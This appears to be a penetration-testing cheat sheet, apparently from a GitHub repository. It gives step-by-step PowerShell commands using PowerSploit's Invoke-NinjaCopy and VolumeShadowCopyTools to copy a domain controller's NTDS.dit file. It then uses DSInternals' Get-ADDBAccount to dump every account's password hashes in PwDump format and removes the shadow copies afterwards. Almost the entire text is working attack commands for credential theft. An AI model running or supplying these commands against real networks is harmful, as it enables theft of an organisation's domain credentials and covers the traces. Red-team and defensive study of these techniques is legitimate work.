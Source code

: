 # PowerSploit

## 01 - Invoke-NinjaCopy

### 1.1 - Extract Shadow File

Import Module

```
PS C:\> Import-Module .\Invoke-NinjaCopy.ps1
```

Extract shadow copy locally.

```
PS C:\> Invoke-NinjaCopy [-ComputerName "<domain_controller_IP>"] -Path "C:\Windows\NTDS\NTDS.dit" -LocalDestination "C:\exfil\ntds.dit"
```

Extract shadow copy remotely.

```
PS C:\> Invoke-NinjaCopy -ComputerName "<domain_controller_IP>" -Path "C:\Windows\NTDS\NTDS.dit" -RemoteDestination "C:\exfil\ntds.dit"
```

### 1.2 - Hashdump Shadow File

Dump the hashes with PwDump format.

```
PS C:\> Get-ADDBAccount -All -DatabasePath "C:\exfil\ntds.dit" -Bootkey "C:\exfil\SYSTEM" | Format-Custom -View PwDump | Out-File -FilePath "C:\exfil\hashdump.pwdump" -Encoding ASCII
```

## 02 - VolumeShadowCopyTools

### 2.1 - Extract Shadow File

```
PS C:\> Import-Module .\VolumeShadowCopyTools.ps1

PS C:\> New-VolumeShadowCopy -Volume C:\

PS C:\> Get-VolumeShadowCopy
```

Remove volume shadow copy

```
PS C:\> Get-VolumeShadowCopy | Remove-VolumeShadowCopy

PS C:\> Remove-VolumeShadowCopy -DevicePath '\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy<n>'
```

---
## References

- [PowerSploit: Invoke-NinjaCopy](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-NinjaCopy.ps1)

- [DSInternals Powershell Documentation: Get-BootKey](https://github.com/MichaelGrafnetter/DSInternals/blob/master/Documentation/PowerShell/Get-BootKey.md)

- [DSInternals Powershell Documentation: Get-ADDBAccount](https://github.com/MichaelGrafnetter/DSInternals/blob/master/Documentation/PowerShell/Readme.md)

- [PowerSploit: VolumeShadowCopyTools](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/VolumeShadowCopyTools.ps1)

- [Netwrix: Extracting Password Hashes from the Ntds.dit File](https://blog.netwrix.com/2021/11/30/extracting-password-hashes-from-the-ntds-dit-file/)